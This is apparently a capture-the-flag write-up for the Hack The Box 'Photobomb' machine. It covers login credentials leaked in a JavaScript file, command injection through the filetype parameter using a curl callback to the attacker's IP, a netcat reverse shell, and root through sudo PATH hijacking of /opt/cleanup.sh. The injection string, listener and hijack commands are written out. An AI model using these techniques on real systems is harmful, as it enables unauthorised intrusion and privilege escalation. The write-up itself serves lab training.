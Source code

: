 ### Add Domain to Hosts file.
***

Photobomb uses a domain name of ````photobomb.htb````.
```
sudo vi /etc/hosts 
```
and add
```
10.10.11.182  photobomb.htb
```
After visiting to the site, there is a login page present which is 
```
http://photobomb.htb/printer
```
When reading the source code I found a ```photobomb.js``` file . </br>

![image](https://user-images.githubusercontent.com/68991993/208419660-22f2e72b-e5ef-4c91-a077-01c87fdb3d52.png) </br>

Suprisingly the photobomb.js file have login details of the site. </br>

![image](https://user-images.githubusercontent.com/68991993/208420206-d3ea6f2e-f75d-4236-a303-f8a80d9dd8fb.png) </br>

## Login 
I logged in using the url ```http://pH0t0:b0Mb!@photobomb.htb/printer``` </br>

![image](https://user-images.githubusercontent.com/68991993/208422056-5ab9d7eb-6b4a-4c63-91e6-c9acd70e67c7.png)
</br>

## Capturing request using burpsuite.
These are the parameters sent to server. I checked all of them for command injection and found that filetype is vulnerable. 

![image](https://user-images.githubusercontent.com/68991993/208422257-76721764-f14f-4b66-b9a9-c00beb37dd6a.png) </br>
![image](https://user-images.githubusercontent.com/68991993/208429522-b43908d6-18ec-4416-b3e5-76f4baf982ef.png) </br>

To verify that i used curl to send a request to my linux machine. 
1) First started a python server. </br>
 
![image](https://user-images.githubusercontent.com/68991993/208430441-51549e70-c1d9-47a3-933c-1b17cfc3b77d.png) </br>
2) Sent the request in burp using payload 

``` filetype=jpg;curl -XGET 10.10.14.105:8000``` </br>

![image](https://user-images.githubusercontent.com/68991993/208430723-d31e4425-e63e-4d79-9df3-b8ac1d4f2a60.png) </br>

3) Got request to my machine </br>

![image](https://user-images.githubusercontent.com/68991993/208430822-137fbb25-13ac-418a-b909-f90fb378526f.png) </br>

so the command injection is comfirmed and we need to get a reverse shell now.

## Reverse Shell
1) Start a listener </br>
``` sudo netcat -lvnp 9001 ``` </br>
![image](https://user-images.githubusercontent.com/68991993/208432411-7ad35f1a-9c17-4834-8634-b45ab42f1db3.png) </br>

2) Create a payload and url encode it. I used revshells.com to create a python reverse shell. </br>
 
![image](https://user-images.githubusercontent.com/68991993/208433090-ea7b7fe2-d164-4cf4-b0c5-323ee99e2404.png) </br>
![image](https://user-images.githubusercontent.com/68991993/208433241-ea3a1d4d-8760-4ea4-8e52-a93e973326e2.png) </br>

3) Got reverse shell </br>

![image](https://user-images.githubusercontent.com/68991993/208432854-6a3d99ec-1cd9-4a23-8c52-339a5143bc25.png) </br>


## User Flag

![image](https://user-images.githubusercontent.com/68991993/208433730-09e14f80-8757-4a7b-b8fc-2dee3cb61f38.png)

## Root Flag

For the root flag we need to do privilege escalation.
1) Check the sudo rights of user
``` 
$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
2) Reading the /opt/cleanup.sh file
```
$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
3) We can take advantage of the fact that we can change variables such as the path to take a custom find command, and under the context of sudo our find will be executed as root For this we will create a find file that is worth bash and we will give it execution permissions

```
$ echo bash > find
$ chmod +x find 
```
4) Now by changing the path variable we execute the script and get root </br>
```
$ sudo PATH=$PWD:$PATH /opt/cleanup.sh
root@photobomb:/home/wizard/photobomb# ls
1  find  log  photobomb.sh  public  resized_images  server.rb  source_images
root@photobomb:/home/wizard/photobomb# cd /
root@photobomb:/# ls
bin   dev  home  lib32  libx32      media  opt   root  sbin  sys  usr
boot  etc  lib   lib64  lost+found  mnt    proc  run   srv   tmp  var
root@photobomb:/# cd root
root@photobomb:~# ls
root.txt
root@photobomb:~# cat root.txt
8380325b1ea2d19343bb97b83ab03359
root@photobomb:~# 
```





